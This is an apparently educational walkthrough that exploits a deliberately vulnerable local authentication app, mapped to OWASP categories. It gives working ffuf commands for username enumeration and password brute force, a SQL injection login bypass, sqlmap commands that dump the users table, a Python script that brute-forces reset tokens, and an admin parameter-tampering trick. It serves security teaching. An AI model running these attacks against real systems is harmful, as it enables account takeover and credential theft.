# Exploiting the Vulnerable Authentication App

## Introduction

In this guide, we present a comprehensive demonstration of common authentication vulnerabilities found in web applications and how to exploit them using penetration testing tools. The vulnerable application intentionally implements insecure authentication mechanisms that align with the OWASP Top 10 Web Application Security Risks for demonstration purposes, specifically focusing on:

- **A2:2021 - Cryptographic Failures** (insecure storage of credentials)
- **A7:2021 - Identification and Authentication Failures** (weak password recovery, brute force vulnerabilities)
- **A1:2021 - Broken Access Control** (improper authorization checks)
- **A3:2021 - Injection** (SQL injection vulnerabilities)


## Vulnerability Summary Table

| Vulnerability | OWASP Category | Method of Exploitation | Tools Used | Impact |
|--------------|----------------|------------------------|------------|--------|
| User Enumeration | A7:2021 - Identification and Authentication Failures | Different error messages for invalid username vs. password | Manual testing, ffuf | Allows attackers to discover valid usernames |
| Brute Force Passwords | A7:2021 - Identification and Authentication Failures | No rate limiting or account lockout | ffuf, wordlists | Unauthorized access to user accounts |
| SQL Injection | A3:2021 - Injection | Unvalidated user input in SQL queries | Manual testing, SQLmap | Authentication bypass, data exfiltration |
| Token-based Authentication Bypass | A7:2021 - Identification and Authentication Failures | Predictable, short reset tokens | ffuf, Python script | Password reset for any user account |
| Parameter Tampering | A1:2021 - Broken Access Control | Manipulating request parameters | Burp Suite | Unauthorized access to admin functionality |
| Insecure Credential Storage | A2:2021 - Cryptographic Failures | Plaintext password storage | SQLmap | Exposure of all user credentials |

## Prerequisites
- Parrot Security OS VM running
- Vulnerable application running on your host machine (`http://localhost:3000`)
- **Tools**: Burp Suite, ffuf, SQLmap, and basic browser

## 1. User Enumeration
### Manual Testing
We can manually try some default users like `admin` and password `admin`, `administrator`, `root` ...




We can see that the app returns `Incorrect password`, also when we try a different user that is not likely to exist, say `Javascript` and password `123456` and we see that it returns `User not found`.


### Using ffuf for Username Enumeration
We can use Burpsuite to intercept the request as demonstrated in the following figure:

After this, we can use ffuf to enumerate users using wordlists, such as the `xato-net-10-million-usernames.txt` list from SecLists:
```shell
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://IP_ADDRESS:3000/api/login -X POST -H "Content-Type: application/json" -d '{"username":"FUZZ","password":"123456***"}' -fr "User not found"
```
Once we identify a valid username, such as `admin`, we can perform a brute-force attack on the password using a wordlist like `rockyou.txt`.

## 2. Brute Force Password Attacks
### Using ffuf for Password Brute Force
```shell
ffuf -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt:FUZZ -u http://IP_ADDRESS:3000/api/login -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"FUZZ"}' -fr "Incorrect password"
```



The password discovered is `chocolate`, allowing us to successfully log in as `admin`: 


## 3. SQL Injection
### Basic SQL Injection
If we try logging in with:
   - Username: `admin' --`
   - Password: (anything),
The resulting query looks like this: 
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'sasa'
```
This manipulation effectively bypasses authentication, allowing us to successfully log in as admin.
### Advanced SQL Injection with SQLmap
To discover SQL Injection vulnerabilities in our login, we can use the following command:
```bash
sqlmap -u "http://IP_ADDRESS:3000/api/login" --data='{"username":"test","password":"test"}' --level=5 --risk=3 --dbms=sqlite --technique=B --headers="Content-Type: application/json" --ignore-code=401 --batch
```




This output indicates that SQLmap has successfully identified SQL injection vulnerabilities in the application.
For further exploitation, we can enumerate the `users` table with sqlmap:
```bash
sqlmap -u "http://IP_ADDRESS:3000/api/login" --data='{"username":"test","password":"test"}' --headers="Content-Type: application/json" --dbms=sqlite --technique=B --level=5 --risk=3 --dump -T users --ignore-code=401
```



## 4. Brute Force Password Reset Tokens
When we request a password reset for a known email, such as admin@example.com, we are prompted to enter a 4-digit token:


We can either use `Burp Intruder` or `ffuf` to brute force the reset token:
```shell
seq -w 0 9999 > tokens.txt
```
```shell
ffuf -w ./tokens.txt:FUZZ -u http://IP_ADDRESS:3000/api/verify-reset-token -X POST -H "Content-Type: application/json" -d '{"email":"admin@example.com","token":"FUZZ"}' -fr "Invalid token or email"
```






We have successfully brute forced the reset token and now we can change the admin password.
We can also use the following python script to achieve the same result:
```python
import requests
import json
url = "http://IP_ADDRESS:3000/api/reset-password"
email = "admin@example.com"
new_password = "hacked"
for i in range(10000):
    token = str(i).zfill(4)
    payload = {
        "email": email,
        "token": token,
        "newPassword": new_password
    }
    response = requests.post(url, json=payload)
    if "success" in response.text:
        print(f"Success! Token: {token}")
        break
    if i % 100 == 0:
        print(f"Tried {i} tokens...")
```

## 5. Authentication Bypass via Parameter Modification
### API Parameter Tampering
We can capture a GET request to `/index.html` in Burp Suite and change it to a GET request to `/api/admin/users` with query parameter `isAdmin=true`:




After forwarding the request we observe that the response contains user data: 



## Conclusion

The vulnerabilities demonstrated in this document represent common but critical flaws in web application authentication systems. They allow attackers to bypass authentication, access sensitive information, and gain unauthorized privileges.

In our secure version of this application, we will demonstrate how to remediate these vulnerabilities by implementing:
- Proper password hashing with salting
- Rate limiting and account lockout policies
- Parameterized queries to prevent SQL injection
- Strong, unpredictable tokens with proper validation
- Proper session management and access control